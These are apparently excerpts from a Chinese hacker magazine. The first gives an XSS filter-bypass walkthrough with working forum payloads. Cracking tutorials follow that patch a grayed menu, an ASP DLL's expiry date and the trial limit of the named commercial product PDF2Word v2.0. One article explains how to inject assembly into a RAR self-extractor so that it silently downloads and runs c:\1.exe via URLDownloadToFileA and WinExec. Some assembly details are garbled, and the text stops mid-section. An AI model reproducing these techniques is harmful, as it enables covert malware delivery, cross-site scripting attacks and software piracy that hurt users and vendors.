  filtrate=Split(SiteConfig("BannedText"),"|")
  For i=0 To UBound(filtrate)
    fString=ReplaceText(fString," " & filtrate(i),String(Len(filtrate(i)),"*"))
  Next
End If

BodyEncode=fString
```

- 转换 `vbCrLf`（即换行）为空
- 转义 `\` 和单引号
- 将超级链接改为在新窗口中打开
- 转义站点设置中禁止的HTML标签
- 转义站点设置中禁止的HTML标签中的事件
- 将站点设置中禁止出现的文本换为星号

那么站点设置那里默认情况又是怎么样的呢？如图1，过滤HTML标签为 `link|script|object|iframe|form|style|div|caption|...|meta`；过滤HTML标签内的事件为 `javascript|onerror|onload|onmouseover`。


看完了默认配置，心里就有数了，那么我们再回到前台来，开始进行高级的跨站语句撰写。首先来写个 `<span style="width:expression(alert('XSS'))"></span>` 测试，不过打开新发表帖子后，发现并没有预期的弹出对话框。继续分析后发现单引号被转义了，因此可考虑利用双引号并结合样式截断来绕过。

进一步阅读过滤配置可见，HTML事件仅过滤了少量常见事件（如 `onerror`、`onload`）。对于表单文本域，仍可利用 `onfocus`、`onblur` 等事件触发。于是可构造：`<input value="文本域" onblur=alert('XSS')>`，当文本框失焦时触发。

最终可结合expression场景构造完整语句：`<input value="哈哈" onblur=alert("XSS") style="width:expression(this.blur)">`。将该语句输入到帖子内容中，页面渲染时可触发相应事件，从而达到跨站目的。

## 从零开始学破解之（四）


## 功能限制之激活灰色按钮

Talent Feng

## 前言

在上一期文章中我们首先将软件的种种限制手段做了一个比较详细的介绍，使大家对软件的常用限制手段有了一个大概的了解，并对如何去除NAG窗口的方法做了详细介绍。大家有没复习呢？现在新的一课马上就要开始了！

在这一课中，我们来学习如何解除软件的功能限制。联系上一课的内容，回忆一下什么叫做软件的功能限制。简单地说，所谓功能限制就是在软件未注册的情况下，不允许使用其全部的功能。当然，这样的理解仅仅是表面上的。我们要解除软件的功能限制就必须要对它有深一层的了解，才能有助于更好地理解和学习。下面我们就来详细地介绍一下“功能限制”的来龙去脉。

对这一类型的功能限制，破解起来似乎没有专门的知识要去了解，只要把前面讲过的内容联系起来，轻轻松松地就可以解决问题了。一般解决它只需要分成两个大的步骤：

1. **爆破解除功能限制**  
   寻找关键跳转，然后使用“修改跳转”和“NOP”两大法宝解决问题。
2. **去掉提示窗口**  
   有的情况可能是这样的，功能限制已经被解除，但是使用时还是会跳出那个“提示注册”的窗口。虽然它已经对我们起不到任何作用了，但是看着它就觉得不顺眼，所以干脆当做NAG窗口一样，把它除掉了。

以上两个步骤是方法，但是最重要的是需要有线索。线索是什么呢？就是“提示注册”窗口的内容，诸如：“请及时注册”、“未注册版本不能使用该功能”等这一类提示。

## 一、功能限制的表现形式

在日常应用中，功能限制在软件中的应用通常可以划分成两种主要的形式：

1. **提示注册型**：当使用某些共享软件时，若操作受限功能会弹出对话框，提示“软件未注册不能使用这项功能”、“请及时注册”等。
2. **灰色菜单型**：部分功能菜单始终为灰色不可用状态，用户无法直接使用。

> **注意事项：**  
> 对于功能限制的软件，我们要先进行分析。有的软件倘若我们对它的注册功能进行了爆破，并且成功了，那么软件中的功能限制就会随之解除；而另外也有一些软件即使对其注册功能进行爆破，使得软件在使用中显示“已注册”等字样，但是某些功能却依然无法使用，这就是我们常说的“假注册”。一般来说这样的破解就算是失败的。因此根据不同的情况，要采取不同的方法，有的只需要一次破解就可以完成，有的则需要多个点破。

## 二、“提示注册型”功能限制

这类的软件在我们使用受限制的功能时都会弹出一个“请及时注册”之类的对话框。联系前几课讲过的内容，想到什么了吗？对！记住对话框的内容并以此为线索，使用OD载入程序并通过强大的字符串查找功能来寻找你需要的内容，然后顺藤摸瓜找到关键代码，把提示注册的那个NAG窗口破解掉就可以了。

## 三、“灰色菜单型”功能限制

一般来说，导致软件中出现“灰色菜单”的罪魁祸首就是以下两个API函数：

1. EnableMenuItem
2. EnableWindow

还记得上一课中的MessageBoxA函数吗？程序运行中如果遇到了MessageBoxA就会弹出一个对话框。与MessageBoxA类似，这两个API函数可以设置菜单是可用还是不可用的状态。软件作者给这个开关制定了如下条件：对于注册用户，开关是开启的，菜单处在可用状态；对于非注册用户，开关是关闭的，菜单不能使用（灰色）。

如何解决这个“开关”问题呢？想象一下，假如有一盏电灯，本来只在打开开关的时候它才会亮，现在我们要让它一直亮着，有什么办法呢？

第一个办法：就是把开关一直打开（按注册码注册）。  
第二个办法：就是跳过开关，把灯直接接在电线上，这样电灯就不受开关的控制了。

第一种办法是把软件注册了，软件中的“开关”就一直处在开启的状态下，这样软件的所有功能就会向我们敞开大门，但是这样做就叫做CRACK吗？所以，我们就要走第二条路——跳过这个“开关”让它彻底失效，让软件永远为我们亮着绿灯。

## 四、实战灰色按钮激活

我们再次以一个CRACKME为例来进行演示。运行CRACKME，单击“file”选项可以看到，其中的“menue”菜单处在灰色不可用状态。是不是和我们使用某些软件时遇到的情况很像呢？下边就来讲一下如何使这个灰色的菜单“复活”！

首先打开OllyICE，把这个CRACKME拖到OllyICE中加载进来。在“插件”→“Ultra String Reference”→“Find ASCII”字符串查找功能看有没有找到重要的提示信息，可是结果让我们很失望，如图1。没有任何有用的信息，这下线索断了该怎么办呢？

> ### 小知识：领空
>
> 在进行这项操作时，要在 OllyDBG 中保证是当前被调试程序的领空。什么叫程序的领空呢？简单地说就是程序自己的地盘。把电脑比喻成一个操场，有许多小朋友在玩风筝，这些风筝好比是在电脑中运行的许多程序。我们调试程序就是控制其中的一个程序（找到操场上空指定的一个风筝）。你可以把风筝理解成一个“程序”，风筝线就是我们的控制工具 OllyDBG，那个小朋友在哪里，哪里就是“领空”。调试本程序时，OllyDBG 的标题栏显示“[CPU — 主线程，模块 — EnableMenu]”，表明我们当前在 EnableMenu 这个程序的领空。

出现这个问题，我们就应该意识到通过字符串查找这条路来解决问题似乎已经行不通了。那有没有别的思路呢？说到这里，我已经迫不及待地要给大家介绍一位新朋友了，那就是 OD 的另一项强大的功能——“函数参考”！

什么叫函数参考呢？这个问题并不重要，还是先让我们体验一下它强大的功能吧。在 OllyDBG 的反汇编窗口中单击鼠标右键，在弹出菜单中选择“查找”->“当前模块中的名称”，也可以使用快捷键 Ctrl+N，如图2，打开“函数参考”窗口，如图3。

结合上图我们可以看出，整个“函数参考”窗口被划分成了五个部分：地址、区段、类型、名称和注释。我们现在只需要关心“名称”这一项中的内容。下面的工作就是要在“函数参考”窗口中的“名称”这一项的所有函数里找一找有没有名字叫做“EnableMenuItem”或者“EnableWindow”的函数。真是幸运，第三个就是，如图4。

找到之后选中它，敲下回车键，自动来到“输入函数参考”中，如图5，双击那行代码就可以来到“EnableMenuItem”这个函数对应的代码处。

看到关键代码了，大家是不是忍不住想动手了呢？好的，既然是好不容易才找到的，那就不能放过它，使出浑身解数来修改它吧。

## 1. 修改参数法

提到了函数，有编程经验的朋友就知道它需要参数。在这个代码前稍作观察一下，发现 `004011E3` 处的代码如下：

```asm
004011E3    6A 01        push 1    ; /Flags = MF_BYCOMMAND|MF_GRAYED|MF_STRING
```

这个 `push 1` 里的 `1` 其实就是那个电灯的开关，`0` 表示允许使用，`1` 表示灰色，`2` 表示禁止。将 `push 1` 改成 `push 0`，也就是打开了电灯的开关，让灯泡一直亮着了。鼠标右键单击改过的这行代码，选择“复制到可执行文件”->“选择”，在弹出的新窗口里右键，“保存到文件”，命名为 `EnableMenu2.exe`，现在打开看看，破解成功了吧！

## 2. 跳过开关法

在上一课中去除 NAG 窗口时用了一个跳转法，这里也一样适用。先把要修改部分的代码提取出来：

```asm
004011E3    6A 01                push 1
004011E5    68 459C0000          push 9C45 ; ItemID
004011EA    50                   push eax  ; hMenu
004011EB    FF15 9C404000        call [<&USER32.EnableMenuItem>]
004011F1    5E                   pop esi
```

是不是看得有点眼花缭乱呀，一片代码的海洋，这些东西都是干什么用的呢？不要被这些看不懂的东西吓倒，这些东西干什么用的大家没必要去深究，因为其中的理论非常深奥，有编程基础的朋友可能对这些有种似曾相识的感觉（都是些 API 函数名）。不过要提示大家的是：现在不要问为什么，只要跟着我做就可以了。

还记得在字符串的海洋中查找注册提示信息的感觉吗？现在又要大海捞针了，所以再提醒大家一下，学习破解一定要有耐心。

到 `004011EB` 调用了 `EnableMenuItem` 使按钮变成灰色。把这段代码改成无条件跳转后即可绕过。选择第一句 `004011E3`，将 `push 1` 修改为 `jmp 004011F1`（见图6）。按 `ABCDE` 结构理解：原本 B 负责将菜单置灰，改为跳到 C 后，程序就“忘了”执行置灰任务。

修改完成后按前文方法保存并运行，效果如图7。原本灰色菜单项已可点击，并可打开原本被屏蔽窗口，如图8。

> **本文关键词解释：什么是 API**  
> API（Application Program Interface）是应用程序接口，通常是系统对上层程序提供功能调用的一组约定。程序通过调用 API 获得系统功能，而不必自行重复实现。

> **小编点评：**  
> 本文对“灰菜单”破解思路做了补充说明，并强调通过温习基础技术可持续提升实战能力。

## 五、总结

通过本次学习，我们初步掌握了解决软件中“灰菜单”问题的方法。通常仅需将软件视为普通用户运行，即可去除利用机制产生的限制。随着软件保护技术发展，需要针对受限功能进行分析并解除。相较“提示注册”类，“灰菜单”类破解路径更直接、线索更清晰，便于入门实践。

（文中涉及工具：OllyICE、OllyDBG，已收录于光盘中）

在《黑客X档案》06年第10期“将 RAR 自解压城墙玩到底”一文中，讲到可通过修改 RAR 自解压程序实现“右键用 RAR 打开看到文件A、双击后却是文件B”等效果。问题在于修改后体积变大。可用 PEiD 等工具分析，并在脚本中调用 RAR API 对附加数据进行处理，从而解决体积与附加数据冲突。

## 一、最终效果

打开制作的自解压程序修改工具（图1），选择目标 RAR 文件并配置参数。

RAR 文件，比如“离开捆绑的过去式.rar”，填入要下载的文件网址和需要保存到的路径，单击“生成”按钮，就会得到一个“离开捆绑的过去式.rar.exe”文件了。它是个自解压程序，表面上看不出任何异样，使用鼠标右键“用 RAR 打开”也很正常，可是一旦双击这个文件，在出现解压缩提示框的同时，下载程序也会被释放并自动运行了，如图2。

> ### 小知识：变形 JMP
>
> CALL 和 JMP 都可以实现跳转功能，有的程序会使用 CALL 来代替 JMP 以干扰分析。区分方法通常是观察调用后是否返回、是否成对出现等。

## 二、手工制作

本文的汇编代码虽然稍长，但核心过程并不复杂：向堆栈压入参数、定位 API 地址、压入参数并调用 API。要注意修改后的程序建议使用多线程技术，避免运行后长时间无响应。文中涉及 `beginthread`、`URLDownloadToFileA`、`WinExec` 等 API，并提示尽量不要使用美化版 WINRAR（可能含 UPX 壳）。

因为自解压文件结构较紧凑，需要新增一个区块。可用 `zeroadd` 或 `LordPE` 构造，区段名可自定义，大小建议约 `100` 字节，添加成功后会出现提示框。

随后使用 WINHEX 打开备份文件和添加区段后的文件，在备份文件中查找文件头标记后复制到末尾并保存，测试可正常解压。

使用 LordPE 查看新增区块的虚拟偏移（示例为 `20000`），结合基址 `400000` 得到新块虚拟地址 `420000`。之后用 OllyDbg 打开制作好的自解压程序，入口附近可见变形 `jmp(call)`。

| 名称 | VOffset | VSize | ROffset | RSize | Flags |
|---|---:|---:|---:|---:|---|
| .text  | 00001000 | 00013000 | 00000600 | 00012800 | 60000020 |
| .data  | 00014000 | 00007000 | 00012C00 | 00000400 | C0000040 |
| .idata | 0001B000 | 00001000 | 00013600 | 00001000 | 40000040 |
| .rsrc  | 0001C000 | 00003000 | 00014600 | 00003200 | 40000040 |
| ads    | 00200000 | 00000200 | 00017800 | 00000200 | E0000020 |

我们现在拖动滚动条向下，到 `413240` 附近可见大量 JMP，继续查找函数及其地址（不同系统可能不同）：

- `LoadLibraryA`：地址 `413390`
- `GetProcAddress`：地址 `413348`
- `GetModuleHandleA`：地址 `41333C`

记下地址后，按 `Ctrl+G` 到 `420000` 开始写代码。在调用 `URLDownloadToFileA` 和 `WinExec` 前需先写入相关字符串；右键选择“二进制/编辑”进行修改。

在编辑框中填入下载 URL（示例为图片地址），取消“保持大小”，确认后代码区会变成乱码，属正常。随后在多个地址继续写入路径、DLL 与 API 字符串，如 `c:\1.exe`、`urlmon.dll`、`URLDownloadToFileA`、`msvcrt.dll`、`_beginthread`、`WinExec`、`KERNEL32.dll` 等。

接下来在 `420093` 处开始写执行代码，第一段代码及解释如下：

```asm
pushad                  ; 保存现场
push 420038             ; "urlmon.dll"
call 413390             ; LoadLibraryA
push 420047             ; "URLDownloadToFileA"
push eax
call 413348             ; GetProcAddress
; EAX <- URLDownloadToFileA
push 0
push 0
...
```

```asm
push 420031 ; 字符串 "c:\1.exe" 入栈
push 420000 ; 字符串 URL 入栈
push 0
call eax    ; CALL URLDownloadToFileA
push 420085 ; 字符串 "KERNEL32.dll" 入栈
call 41333C ; GetModuleHandleA
...
call 413348 ; GetProcAddress, 取得 WinExec
...
call eax    ; CALL WinExec 运行 c:\1.exe
popad
retn
```

然后开始写第二段代码（记下这两段代码开始时的地址）：

```asm
pushad
push 42005E ; "msvcrt.dll"
call 413390 ; LoadLibraryA
push 420066 ; "_beginthread"
push eax
call 413348 ; GetProcAddress
...
push 420093 ; 第一段代码开始地址
call eax    ; 开启新线程
jmp 4037A0
```

代码完成后如图11。现在记下第二段代码开始的地址 `4200DB`，保存一下，回到入口点 `401000`，修改 `call 4037A0` 为 `jmp 4200DB`，保存并运行。……

## 后记

看完这篇文章也许就有人想起05年《X档案》上的一篇文章……文章中涉及了 API 的重定位……本文涉及到的 zerovdd 1.0、OllyDbg、WINHEX 和文中涉及到的代码及程序已收录到光盘中。

## 从零开始学破解之（五）

## 破解软件“品大富豪十”——探秘

经过了前面四堂课的学习，小菜鸟们是不是感觉对破解越来越有兴趣了呢？……为了让大家给以后的学习打下更好的基础，我决定在这一课开始之前为大家做一个简单的学习总结。

目前为止，我们一直没有提过加壳与脱壳的知识……这个工具的使用也非常简单，双击打开后，把待检测的软件拖到 PEiD 的界面上，就会自动显示判断的结果了，如图1。

## 一、学习破解必备工具

- 1. 探测工具 PEiD

作用：揭开软件的外衣。因为大部分的破解都是在软件没有加密的状态下进行的，因此在破解之前，判断软件是否加壳、加了什么壳非常重要。

### 2．反汇编工具

作用：解剖软件。  
代表作：静态反汇编工具 W32DASM、动态反汇编工具 OllyDbg（简称 OD）。

OllyDbg 是当今最为流行的调试解密工具。它的原版界面是英文的，有人汉化成中文并加入了非常多非常实用的插件之后，为了区别原版，起了个名字叫 OllyICE。尽管平时大家用得更多的可能是汉化后的 OllyICE，可是习惯上还是叫做 OD。要完全掌握 OD 可能会比较困难，大家只需要学会双击 OllyICE 后，把你要破解的文件拖到软件的界面中就能够自动加载到 OD 里就对了，剩下的操作在“从零开始学破解”系列的文章里都会详细教你。

以上是我们接触到的破解界也是必备的两类软件。至于脱壳工具、资源编辑等工具，由于还没机会真正体验到它们的功能，所以就先不多说了。

## 二、菜鸟必须了解的破解方法

常用的破解方法有暴力破解和完美破解。  
暴力破解（简称暴破）就是反汇编查出软件的一些限制关键代码所在，强行修改某些代码改变程序的运行流程，从而达到突破限制的破解目的。暴破的概念很简单，不过必须要掌握以下几个方面，才能很好地将暴力破解应用在实践中。

### 1．确定暴破的位置

要想正确地暴破软件，首先要找到正确的暴破点。找到暴破点的关键就是要留心软件的注册提示信息，比如“注册成功”“注册码错误”“无效的注册码”之类的字符串。通过 OD 强大的字符串查找功能，找到这些出现在软件使用过程中的注册提示信息，就可以直捣黄龙，确定暴破点了。

### 2．怎样修改

找到了暴破点就要思考如何进行修改了。修改的思路主要就是“变失败为成功”。修改软件的代码，进而改变它的运行方向，使本来应该出现的“注册失败”变成“注册成功”。但是具体如何修改代码呢，一会将在回忆“汇编知识”的内容中为大家介绍。

其实普通的破解可能会出现软件的功能限制已经解除，但是很多细节处还存在缺陷，有“未注册”的字样，或者弹出各种讨厌的窗口要求我们注册（这种窗口叫做 NAG），这就是不完美的破解。破解的最高境界“完美破解”是在调试软件的过程中能够分析出软件的注册码，甚至分析出软件的注册算法，写出注册码。这样用户就可以登录注册了。不过它对于小菜鸟们来说有点难，所以大家暂时只需要了解“完美破解”这个概念就行了。等我们熟练地掌握了破解的基本功，也把一些计算机知识更系统、更深入地掌握以后，相信大家都能够达到这个境界。

## 三、学破解必会的汇编知识回顾

作为一个想要学习破解的小菜鸟来说，掌握一定的汇编知识是必须的。先给大家吃一颗放心药，汇编知识远远没有大家想象中的那么难。而且我们只需要掌握一些最基本的汇编语言就足够了。那么小菜鸟们必备的汇编知识有哪些呢？

- 1. **赋值语句**  
  `mov a,b` // 把 b 值送给 a，使 a=b
- 2. **比较语句**  
  `cmp a,b` // 比较 a 与 b
- 3. **跳转语句**
  - `je` 或 `jz` // 相等则跳（机器码是 74 或 84）
  - `jne` 或 `jnz` // 不相等则跳（机器码是 75 或 85）
  - `jmp` // 无条件跳（机器码是 EB）
- 4. **调用子程序语句**  
  `call` 语句

详细讲解（节选）：  
`mov` 的含义是“把 b 值送给 a”；当 a=1，b=2 时，执行后 a=2，b=2。  
`cmp` 执行后程序会按比较结果（大于/小于/等于）决定后续分支。  
在赋值和比较的所有语句中，小菜鸟们掌握 `mov` 和 `cmp` 两个语句就足够了。  
跳转语句中，`je/jz` 用于相等跳转，`jne/jnz` 用于不等跳转，`jmp` 为无条件跳转。  
`call` 的作用是在程序运行时按需要调用相应子程序来运行。

### 5. 无作用语句 NOP

这个语句在以后的软件爆破中应用得十分广泛，它的作用就是当程序遇到它时，不做任何事情，无条件地执行它后面的语句。

复习了基本汇编命令，现在回到上文中我们留下来的一个问题：在暴力破解的时候如何去修改程序的代码呢？如果我们想让程序在输入任意注册码时都可以注册成功，那么就要把程序的跳转方向修改一下。具体做法是：我们把 JE、JZ、JNE 这类的跳转改成 JMP。这样不论程序作出如何判断，都会产生相同的结果。好了！复习的内容就到这里，马上开始我们新的旅途吧。

“this window good luck!!!”，双击后会自动来到调用这句字符串的代码处。这也就是 MessageBoxA 这个重要函数的位置，我们把主要的代码提取出来。


## 四、初识“断点”

今天要给大家介绍一个陌生而又很重要的概念——“断点”。什么是断点呢？顾名思义，“断点”就是程序中断的地方。把破解里的概念和简单例子放在一起，可以理解为：在调试中给程序设置“路障”，让它在指定位置停下来，便于逐步检查关键流程与信息。

## 五、实战“断点”

- 1. **实战目的**：使用断点技术确定 CRACKME 运行时出现的“NAG”窗口的关键代码，对比两次去除“NAG”窗口的异同。  
- 2. **准备工作**：
  - 手术刀：OD
  - 标本：CRACKME（用于练习破解的小程序）
- 3. **手术流程**：载入程序，使用字符串参考（Ultra String Reference / Find ASCII）定位提示字符串，再跟踪到对应调用代码位置。

### ① 设置断点

找到代码首句后，在 OD 中右键选择“断点”并切换（或按 F2）设置断点；设置成功后该行会标红。

### ② 使用断点

运行程序（F9）后可观察到现象变化，再回到 OD 通过单步步过（F8）跟踪执行。当执行到 `0040822A  E8 41C4FFFF  call <jmp.&user32.MessageBoxA>` 一行附近时，会触发对应的对话框行为，从而验证关键路径。

### ③ 断点的作用

MessageBoxA 相关几句代码可视作“指挥棒”，只有它们被顺序执行后才会弹出对话框。把断点设在首句会临时中断后续执行，单步放行后才继续触发弹窗。由此可定位最关键代码段，并为后续绕过逻辑提供依据。


讨厌的 NAG 对话框出现了。灵活运用断点的知识，可以让我们确定程序到底运行到什么地方、执行哪些代码、会发生什么结果，帮助我们迅速准确地找到关键跳转所在。

讲到了这里，想必大家也对断点的概念有了一些认识了。有个朋友看完本文之后，用断点的知识找到了文章中所用到 CRACKME 的判断注册关键跳，并成功绕过了它，读者们是否也心动了呢？一起动手把 CRACKME 完美地破解掉吧！

（文章中涉及到的 OD、Keygen.exe 已收录到光盘中。）


## 使用OD破解ASP的DLL组件

普罗米修斯[TAT]

最近在做 ASP 的教学工作；为了给学生找到合适的案例代码，从网上下了很多代码来做实例分析。其中一个名叫“慕胜软件”的进销存源代码使用了一个 Asp2Dll 的软件将 Asp 代码封装为 Dll 文件，这样来保证代码内容不被窃取，但是这套程序同时很变态地有一个过期限制，如图1。


图1


图2

很自然地，我就想到了使用破解的方法来突破限制、使用这套 ASP 的源代码。由于以前没有见过有朋友发表过类似使用破解界面软件的方法来破解 Asp 程序，因此将这个过程写下来，与 X 的读者朋友分享。

Asp 代码本身是没有加密方法的，所有代码都是以明文存放的，这样代码本身就极其不安全（Php 也是类似的，但是有一个软件叫做 Zend，可以用来加密 Php 代码，同时在服务器上安装 Zend 的解密程序，就可以正常运行加密了的 Php 代码，目前只有很少数人掌握了 Zend 的解密方法）。


图3

返回我们的话题，由于 ASP 代码的这种不安全特性，辛苦写出的代码往往被人随意盗用。当然这对于需要学习的人来说并无可厚非，但是如果是商业代码，则牵涉到商业版权的问题了。于是有人开始使用一个技巧：因为 Asp 可以调用 Windows 的 ActiveX 组件，因此很多人就将核心的业务逻辑代码封装到 ActiveX 组件中。由于这样的组件是已经编译了的 Dll 文件，人们就无法看到其内容了，当然也就无法随意修改，所以就出现了本文开始时具有时间限制的程序。

Dll 的封装让我想到了传统软件的破解方法——使用 OllyDBG 破解工具。首先打开 OllyDBG，我这里使用的是汉化全插件版，打开 Dll 文件，如图2。我们可以设想，过期日期的字符串应当保存在此 Dll 文件中。因此打开 OD 菜单中的“插件”里的“超级字符串参考”插件，选择“查找Unicode”，这时就打开了超级字符串参考窗口，如图3。


图4

图6

不难看到，在这里有很多 Asp 的源代码。那么，如何快速地找到过期日期呢？不妨再设想下，过期日期可能是 2006 年（或附近的时间段），按 Ctrl+F 键，打开查找窗口，键入“2006”，点击搜索，可以看到字符串定位到了最后的部分，此处赫然写着“2006-11-11”，这里应当就是过期的日期了，如图4。

双击此字符串，转到主窗口中相应的汇编代码处。在该行汇编代码处点击右键，选择“数据窗口中跟随”->“立即数”，此时在下部的 Hex 数据窗口将显示当前代码的 16 进制数值，如图5。

这时将 2006 中数字 6 选中，按下小键盘上的数字键会弹出一个对话框，将 6 所对应的 HEX 数据 36 更改为 37，即将过期日期改为 2007 年。然后右键点击主窗口，选择“复制到可执行文件”->“所有修改”，保存这个文件即可。

完成对此 Dll 文件的破解后，去测试一下：将此文件复制到 System32 目录，并使用 `Regsvr32 ldxm.dll` 注册该 dll 文件，而后按照源码要求配置数据库，并建立站点，访问站点首页，此时可以运行，如图6。


图5

> ### 小编点评
> 至稿前失了一个投稿，时间久了，还以为他也失踪卷走了呢。忽然编辑到这篇文章的时候感觉文风很好，格式很规范，看来作者的名字才知道他居然写破解类的文章了。说实话，很多人对那些被封装成 dll 文件的 ASP 程序很有好奇心，今天这篇文章从破解的角度让大家对它们有了一个侧面的了解，应该是相当不错的。而且在 OD 的使用过程中，相信一些小技巧也会值得大家掌握的。另外长期以来，大家都认为动态的核心代码封装到 DLL 文件里总能将机制做得滴水不漏，不知道用这个 OD 的超级字符串功能是否可以帮助大家“明白”呢？呵呵。——壳

## 从零开始学破解之（六）

## 破解次数限制

Talent Feng

平时我们使用共享软件的时候经常会看到诸如“软件使用还剩**次”、“使用次数已到，请尽快注册”等这一类的提示信息，这是软件作者为了保护自己的利益，使软件在没有注册的状态下只能使用固定次数的一种保护手段。对于破解爱好者来说，有限制也有挑战，今天我们就来看看如何突破这种次数限制吧！

在开始本堂课的学习之前，我们先对上堂课所学的知识做一个总结。在上堂课中我们为大家介绍了“断点”这个概念，因为要想真正地破解软件使用次数的限制，就必须要学会怎样去下断点。为了照顾第一次接触本破解技术的朋友和一些忘记了如何下断点的小菜，我再次为大家介绍一个新的知识——命令行下断点，这次可要认真听哦！

> ### 小知识：断点
> 断点就是让程序停下来的地方。在逆向工程中，灵活地使用断点，可以让程序在指定的条件下暂停，供我们分析。

在 OD 的左下方有一个类似文本框的地方，前面还有“命令”两个字（Command），如图1。在这个窗口中，可以通过输入命令的方式让 OD 完成很多任务，比如针对某些函数下断点。


图1

大家都知道 Windows 下的程序运行时要使用到各种各样的 API 函数，针对这些函数下断点，就可以让程序使用到该函数时遇到“路障”停下来。使用命令下断点的格式为 **bp 函数名**。

仔细回想一下，在软件使用中出现的警告（NAG）窗口和注册码提示这些东西都是通过弹出一个窗口来实现的，而弹窗函数里常用 `MessageBoxA` 这个函数。那么如果我们在这个函数上设置一个断点，程序刚准备弹出一个窗口就遇到“路障”停下来了，在这个范围观察代码，就应该能够知道我们所关心的限制要如何破解了！

想明白了吗？没想明白也不要紧，我们马上来实战一下，体验体验“命令行断点”的威力。

## 一、实践对象

这次，我们的目标软件为 PDF2Word v2.0，其限制类型为次数限制，我们要用到的工具有 PEiD、OllyDBG 或 OllyICE、UPXShellEx。

PDF2Word v2.0 是一款可以轻松地将 PDF 文档转换成 WORD 文件的小工具，但其官网标价较高，不太适合普通学习者直接购买。


图2

PDF2Word v2.0 安装成功后运行会出现注册界面，要求输入注册码，否则只能点击“Try”按钮试用。未注册时会弹出提示还剩余试用次数的警告框，如图3。


图3

## 二、脱壳

因为经常玩破解，我很早就在 PEiD 的“选项”里勾上了“添加到右键菜单”，所以我直接从桌面上找到 PDF2Word v2.0 的快捷方式，点击鼠标右键选择“PEiD(R)”。

从图中可以看出，这个主程序还是被 UPX 加过壳的，所以使用 UPX 脱壳法宝“UPXShellEx”，找到 `D:\Program Files\VeryPDF PDF2Word v2.0\pdf2word.exe` 清理外壳。

使用 PEiD 重新扫描脱壳后的程序，发现该程序是使用 VC++6.0 编写的，我们已经成功脱掉程序的“保护外衣”了。

## 三、开刀

打开我们的法宝 OD，把脱壳完的程序拖到 OD 界面里进行加载。在命令输入框里输入命令 `bp MessageBoxA`，如图6。

> ### 小提示：
> 输入完命令要记得回车，这样命令才能生效。


图4


图5


图6

```text
bp MessageBoxA
```

按下 F9 或者点击菜单栏里的“运行”按钮让程序运行起来。因为刚才输入命令，在 MessageBoxA 函数上打了断点，所以程序将要弹窗时就会被中断。现在程序出现注册界面后点击“Try”，程序停下来，即进入我们要分析的位置。

> 注意：  
> 让程序运行起来后，OD 会告诉我们程序遇到了异常不能继续运行，这时采用“忽略”，使用组合键 `Shift+F9` 就可以继续一步一步地让程序往下执行。


大家也看到了，在命令行输入命令设置断点与我们使用一般方法设置断点的效果是完全一样的。只是使用输入命令的方式来设置断点有时可以更方便快捷地达到目的，不像一般设置断点的方法比较盲目。这两种设置断点的方法在使用的过程中如果能够做到结合使用，一般都会有事半功倍的效果，强烈建议大家熟练掌握！

## 四、手术

现在，程序已经乖乖地停在那里了，下面该怎么办呢？告诉大家一个秘密，程序停在那里就“等于”程序任由我们宰割了。偷笑中……

我们注意观察一下 OD 右下角的堆栈窗口的内容，如图8。

按下组合键 `Ctrl+G`，在弹出的对话框里输入刚才所说的关键地址 `00405E9C`，如图9。


> 温馨小提示：什么是堆栈  
> 堆栈其实就是一片内存区域，用于临时存储一些数据。程序运行的时候，很多东西都会临时存储在这片区域中。它是一种特殊的数据结构，只能单向操作，就像堆柴火一样，每一次有新的柴火往上堆，每次只能堆在最高处；每一次取柴火也只能取最顶层的。

堆栈窗口里的内容是不是觉得蛮熟悉的呢？我把最主要的东西给大家提取出来：

```text
0012DFF4  00405EA2  CALL 到 MessageBoxA（来自 pdf2word）
00405E9C  ...
0012DFF8  000R0002  hOwner ...
0012DFFC  00D9D1E8  Text="Your have 94 times to try..."
0012E000  005DF8B0  title="Software Registration"
0012E004  00000030  Style=MB_OK|MB_ICONEXCLAMATION ...
```

耐下性子看看这并不算太长的代码，你就会发现它不正是提醒我们还能使用多少次的内容吗？其实还能使用多少次并不重要，我们把目光集中到第一句提示上：`CALL 到 MessageBoxA 来自 pdf2word.00405E9C`。看到 `00405E9C` 这个地址了吗？对！它就是今天“手术”的关键。

“确定”后程序就来到了地址 `00405E9C` 处，关键代码为：`00405E9C  FF15 E4555B00  CALL DWORD PTR DS:[<&USER32.MessageBoxA>]`。这句代码的意思就是调用 MessageBoxA 函数，弹出一个对话框，这个对话框的主要内容是告诉我们还能使用多少次。

- 1. 程序会设计一个计数器记录我们已经使用了多少次；
- 2. 因为程序规定了只能用 100 次，所以把这个固定的值 100 放在另一个计数器中；
- 3. 用 100 减去我们已经使用的次数；
- 4. 再把计算的结果用 MessageBoxA 函数显示出来。

假设我们猜得没错的话，将计算结果显示出来（告诉我们还能使用多少次）已经是这一过程的最后一步了，所以要想解除使用次数的限制，还要关心前面的几个步骤。于是我们在 OD 中从 `00405E9C` 这一句开始向前看（下面的代码可是今天的关键哦，一定要注意了）：

```asm
00405E58  85F6        TEST ESI,ESI
00405E5A  79C7        JNS SHORT pdf2word.00405E23
00405E5C  A1C0867000  MOV EAX,DWORD PTR DS:[6708C0]
00405E61  89442408    MOV DWORD PTR SS:[ESP+8],EAX
00405E65  B940000000  MOV ECX,64
00405E6A  68...       PUSH ...
00405E6F  2BCE        SUB ECX,ESI
00405E71  8D54240C    LEA EDX,DWORD PTR SS:[ESP+C]
00405E75  51          PUSH ECX
00405E76  68 34F75D00 PUSH 005DF734
ASCII "Your have %d times to try, please register %s, thanks for your support!"
00405E7B  52          PUSH EDX
00405E7C  C78424F0000000 MOV DWORD PTR SS:[ESP+F0],1
00405E87  E8 96B6D100 CALL 005A1522
00405E8C  8B442418    MOV EAX,DWORD PTR SS:[ESP+18]
00405E90  83C410      ADD ESP,10
00405E93  6A30        PUSH 30
00405E95  68 80F85D00 PUSH 005DF880
ASCII "Software Registration"
```

小菜们看到这段代码可能有点头晕了，不要紧；要学破解，少不了要跟汇编打交道，关键是要看懂它。先看前两句：

```asm
00405E58  85F6      TEST ESI,ESI
00405E5A  7C 77     JL SHORT 00405ED3
```

> **小知识：汇编恶补**  
> `TEST ESI,ESI` 常用于检测寄存器值；`JL` 表示小于则跳转。此处可理解为通过比较已使用次数来决定是否继续执行后续流程。

看到这儿，可能会问：为什么会有“小于零次”这种判断？文中解释为在未注册状态下才会进行该检测。

> **软件注册了吗？注册了就跳走喽？**

可只要小于零次才跳转。于是可将 `JL` 改为无条件跳转 `JMP`，从而绕过提示窗口，达到无限次试用。


## 五、解除次数限制的其它方法

也许有的朋友觉得刚才的方法不够过瘾，我们再来看几句代码：

```asm
